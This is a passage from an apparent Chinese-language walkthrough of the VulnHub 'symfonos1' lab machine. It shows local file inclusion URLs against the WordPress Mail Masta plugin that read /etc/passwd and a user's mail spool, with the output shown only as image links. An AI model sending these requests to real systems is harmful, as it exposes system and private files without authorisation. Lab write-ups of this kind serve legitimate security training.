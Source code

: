 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/12.png)

可以,下面尝试从其他文件得到一些信息

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/13.png)
